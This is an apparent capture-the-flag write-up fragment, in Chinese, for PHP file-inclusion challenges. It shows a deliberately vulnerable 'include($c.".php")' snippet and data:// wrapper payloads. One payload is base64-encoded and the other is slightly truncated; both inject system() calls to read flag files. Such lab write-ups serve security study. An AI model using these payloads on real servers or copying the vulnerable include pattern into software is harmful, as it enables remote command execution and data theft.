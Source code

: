 用base64编码一下：
```
?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZmwqIik7Pz4=
```


# web39
```
<?php  
   
  
//flag in flag.php  
error_reporting(0);  
if(isset($_GET['c'])){    $c = $_GET['c'];  
    if(!preg_match("/flag/i", $c)){  
        include($c.".php");  
    }  
          
}else{    highlight_file(__FILE__);  
}
```


```
?c=data://text/plain,<?php system("tac fla*.php")?
```






















